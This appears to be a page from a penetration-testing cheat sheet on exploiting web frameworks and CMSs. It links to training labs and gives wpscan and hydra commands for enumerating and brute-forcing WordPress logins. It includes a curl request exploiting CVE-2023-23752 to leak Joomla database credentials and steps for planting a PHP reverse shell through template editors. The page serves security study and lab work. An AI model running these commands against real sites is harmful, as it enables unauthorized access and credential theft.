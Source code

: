# Framework exploitation

<div class="row row-cols-lg-2"><div>

Frameworks and CMS such as WordPress make it easier to develop websites by providing a generic implementation of common website features. It's often advised to use a framework both to ease the work of the developers, and reduce the number of vulnerabilities.

Fewer vulnerabilities don't mean that there are no vulnerabilities. Frameworks may be misconfigured or misused. They may not be updated or users may have installed vulnerable third-party extensions.
</div><div>

Refer to [Website Fingerprint](/cybersecurity/red-team/s2.discovery/techniques/websites/fingerprint.md) to learn how to detect a framework.
</div></div>

<hr class="sep-both">

## WordPress

[![hackingwordpress](../../../_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)
[![webenumerationv2](../../../_badges/thmp/webenumerationv2.svg)](https://tryhackme.com/room/webenumerationv2)
[![colddboxeasy](../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![wordpress](../../../_badges/hacktricks/wordpress.svg)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)

<div class="row row-cols-lg-2"><div>

There are two **paid** solutions to attack [WordPress](/programming-languages/web/others/cms/wordpress/index.md): [Jetpack](https://jetpack.com/) and [WPScan](https://wpscan.com/). WPScan is providing a CLI tool for **free** and for non-commercial use available [here](https://wpscan.com/wordpress-cli-scanner/) (8.0k ⭐).

```ps
# before every scan, update the local metadata database
$ wpscan --update # may be automatically performed
```

You can enumerate themes, plugins, and usernames. By default, without `-e`, it will scan using `-e vp,vt,tt,cb,dbe,u,m`.

```ps
# Look into the HTML, /wp-content/themes/... for themes
$ wpscan --url URL -e t
$ wpscan --url URL -e vt # vulnerable themes
# Look into /wp-content/plugins/pluginname/... for plugins
# Use the README in each plugin to find the version
$ wpscan --url URL -e ap # all plugins
$ wpscan --url URL -e p  # popular plugins
$ wpscan --url URL -e vp # vulnerable plugins
# Find users (look for ID in posts...)
$ wpscan --url URL -e u
$ wpscan --url URL --enumerate u # same
```

You may have to add `--random-user-agent` to by-pass a simple WAF:

```ps
$ wpscan [...] --random-user-agent
```

You can use WPScan/[hydra](/cybersecurity/red-team/tools/cracking/auth/hydra.md#form-brute-force)/... to bruteforce the login form. When using the tool, you may also use `xmlrpc` instead of the login page.

```shell!
$ wpscan --url URL -P wordlist -U username # ", username2, etc."
$ wpscan [...] --password-attack xmlrpc    # use xmlrpc, faster
$ hydra -l username -P wordlist domain http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -V
$ hydra -l username -P wordlist domain http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=is incorrect.' -V
```

⚠️ Don't use WordPress RPC API if you haven't tested that it works.
</div><div>

You can select a mode between aggressive/passive when scanning. Some results might not be visible according to the mode selected, so you should try both if you can.

```ps
$ wpscan --url URL -e t --plugins-detection aggressive
$ wpscan --url URL -e t --plugins-detection passive
```

You can increase the number of threads:

```ps
$ wpscan [...] -t 5 # default
```

The CLI can be unleashed with WPScan API that will retrieve vulnerabilities  when scanning. The limit is 25 requests per day. See [Optional: WordPress Vulnerability Database API](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation#optional-wordpress-vulnerability-database-api). You can also browse vulnerabilities manually: [WordPress](https://wpscan.com/wordpresses), [Plugins](https://wpscan.com/plugins), and [Themes](https://wpscan.com/themes).

```ps
# To list vulnerabilities, add a "v" before the enumerated type
# ex: vulnerable plugins
$ wpscan --url URL -e vp
```

**To do it manually**

* WordPress version is in the source code (`<meta name="generator" content="WordPress X.Y.Z">`)
* Plugin and Theme names/versions are often loaded from the source code (link/script). The URL may include the version.
* Both WordPress, Plugins, and Themes may have a `readme.html`
* Look for links to user accounts, iterate `/?author=<id>`, or use `/wp-json/wp/v2/users` for versions before 4.7.1
* You can try to use `/xmlrpc.php` if available

**Exploit WordPress**

* [WordPress Plugins Exploitation](_files/wp-plugins.md).
* [WordPress Admin RCE](_files/wp-rce.md)
</div></div>

<hr class="sep-both">

## GetSimple CMS

![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)

<div class="row row-cols-lg-2"><div>

Getting access to an account

* There is no default credentials
* The username is `admin`
* You may try brute forcing the password <small>(ex: test `admin`)</small>
</div><div>

Pop a reverse shell

* You can try to upload a reverse shell as an image
* You can replace the template code with a reverse shell, and navigate to the template page shown when editing the template
</div></div>

<hr class="sep-both">

## Django

[![django](../../../_badges/thm/django.svg)](https://tryhackme.com/room/django)

<div class="row row-cols-lg-2"><div>

The admin page default path is: `/admin`.
</div><div>
</div></div>

<hr class="sep-both">

## Joomla

[![devvortex](../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The admin page default path is: `/administrator`. 

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible.

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.0k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* [droopescan](https://github.com/SamJoan/droopescan) <small>(1.1k ⭐, 2021 ☠️, deprecated)</small>
</div><div>

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true -v
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

Go in System > Site Templates > Click on a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at `/templates/<site_name>/revshell.php`.
</div></div>